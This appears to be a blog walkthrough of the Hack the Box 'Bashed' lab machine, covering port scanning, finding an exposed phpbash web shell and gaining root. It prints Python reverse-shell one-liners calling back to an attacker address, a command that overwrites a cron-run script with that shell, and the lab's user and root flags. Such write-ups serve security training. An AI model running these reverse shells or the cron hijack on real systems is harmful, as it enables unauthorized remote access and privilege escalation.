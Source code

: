 ```yaml
---
title: Bashed - Hack the Box
date: 2024-10-13 12:07:03 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Bashed.png
---
```

---
title: 2024-10-12-Bashed - Hack the Box
date: 2024-10-13 12:01:04 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/2024-10-12-Bashed.png
---
![Image](/assets/Bashed.png)

Bashed is an easy machine on the HTB platform. Attackers must utilize their knowledge of web enumeration, scripting, and processes/permissions to achieve root access. There is quite a bit to be gained from diving into this machine, so lets start with our nmap scan.

### Reconnaissance

```
┌──(root㉿kali)-[/home/li0t]
└─# nmap -sV -sC --open -p- 10.10.10.68
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-06 08:45 EDT
Nmap scan report for 10.10.10.68
Host is up (0.12s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.42 seconds

```

Simple scan here, as the only port available to is port `80`. At the time, I'd no familiarity with other batch scan tools like `autorecon` and `nmapAutomator`. However, luckily this was the intended vector for the machine. It is always important to thoroughly enumerate these scans for everything. Write down each open port and what services are running on them.

### Enumeration

Seeing as the website is the only vector we have access to, we can be confident and aggressive in our approach.

 ![Image](/assets/Screenshot 2024-09-06 at 8.51.26 AM.png) 

The landing page offers us some information about `phpbash` as a tool, and we can do our due diligence to find out that it's essentially a web shell. Given the name of this box, I'd assume we were looking for a way to access a session hidden away in the directories of the server. We can use a directory-busting tool to enumerate further and we can also do so recursively should we need to pry further. I want to note, I used the `subdomain` wordlist here, but the `dirbuster 2.3 Medium` works as well.

![Image](/assets/Screenshot 2024-09-06 at 8.52.13 AM.png)

### Initial Access

It takes a while to know what to look for in terms of uncommon or vulnerable configurations in terms of web directories. There are some rabbit-holes indeed. Keep in mind, though, I've mentioned in another writeup that things like `/dev/` are always of interest, and that's exactly what we get here.

![Image](/assets/Screenshot 2024-09-07 at 8.27.20 AM.png)

We can see two files, but we're only interested in the second as it provides us with the aforementioned web shell.

![Image](/assets/Screenshot 2024-09-07 at 8.27.55 AM.png)

While it's great to get an initial foothold into the system, it's also important to acknowledge the limitations of an environment like this. We can query a bit with commands like `whoami` and `sysinfo`, but we'd like to get a stable shell with functionality as soon as we can. We can start our listener `rlwrap nc -nlvp 443` to have it catch our call-back shell. Which call-back you use is very preferential and takes trial and error, and in this case, a python script from
http://revshells.com did the trick.

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",4321));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

![Image](/assets/Screenshot 2024-09-14 at 11.23.21 AM.png)

Now that we've caught our shell, we can do ourselves a great favor by looking to stabilize. We can check which python version is installed with `which python`. In this case, we've got `python` instead of `python3`:

`TARGET: python -c 'import pty; pty.spawn("/bin/bash")'`
`TARGET: BACKGROUND THE PROCESS WITH ^Z`
`HOST: stty raw -echo;fg`
`TARGET: export TERM="xterm"`

Now, we can `cd` our way around to find the flag, usually within a users `/Desktop` directory.

`USER: b400f51178e32772ec99c792dd8b3465`

### Privilege Escalation

In order to get a sense of what we've got access to and what we do not, `sudo -l` and `ps -aux` are critical.

![Image](/assets/Screenshot 2024-09-14 at 11.34.28 AM.png)

Here, we can see that we've got unrestricted access to commands as scriptmanager. We'll need to switch users in order to make that happen. `sudo` has a tag where you care able to switch users with `-u`, and we can specify which user and the environment we need to be spawned in `/bin/bash`

`sudo -u scriptmanager /bin/bash`

Once switched over, we can mosey around looking for ways to move vertically. Given the name of our user, `scripts` is an interesting directory that requires a look.

![Image](/assets/Screenshot 2024-09-14 at 11.43.24 AM.png)

We can see the test script `test.py`, and it looks like it's being called every few minutes or so. All it does is write "Testing 123" to a file called `test.txt`. We assume a cronjob is calling it, given the periodical nature of its function. We can overwrite the file with a call-back shell to another listener. `rlwrap nc -nlvp 4444`

Overwrite the function with the script:

```
echo -e "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")" > test.py
```

After a few minutes, we'll get a call-back on our listener

![Image](/assets/Screenshot 2024-09-14 at 12.07.58 PM.png)

 `ROOT:9aeb0d2bbee15d2405ee1a0cd24a9a5b`

#linux #easy #manual 
